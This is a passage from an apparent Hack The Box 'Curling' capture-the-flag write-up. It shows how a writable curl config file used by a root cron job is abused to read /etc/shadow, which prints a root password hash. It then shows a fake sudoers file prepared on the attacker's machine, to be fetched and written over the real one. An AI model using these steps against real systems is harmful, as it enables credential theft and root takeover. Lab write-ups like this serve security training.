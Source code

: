 ```
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

![htb_curling_cron.png](../assets/curling_assets/htb_curling_cron.png)

And fortunately for us, we have write access over both these files:

```
floris@curling:~/admin-area$ ls -la
total 28
drwxr-x--- 2 root   floris  4096 Aug  2  2022 .
drwxr-xr-x 6 floris floris  4096 Aug  2  2022 ..
-rw-rw---- 1 root   floris    25 Mar  6 17:14 input
-rw-rw---- 1 root   floris 14248 Mar  6 17:14 report
```

Currently the script is just calling localhost and writing it to report.

Let's abuse curl here and use the cronjob to read the `/etc/shadow` file, and write it out to a file in `tmp`:

```
floris@curling:~/admin-area$ cat input 
url = file:///127.0.0.1/../../../etc/shadow
-o /tmp/test3.txt
```

After a minute the script runs and we can view the file:

```
floris@curling:~/admin-area$ cat /tmp/test3.txt 
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
```

However I was unable to crack this hash using john and unshadow.

Going back to the drawing board I decided to host a phony `/etc/sudoers` file on my attacking machine, and use the cronjob to fetch it and overwrite the actual `/etc/sudoers` file on the target, giving floris full permissions:

```
┌──(ryan㉿kali)-[~/HTB/Curling]
└─$ cat sudoers.txt
floris ALL=(root) NOPASSWD: ALL
```

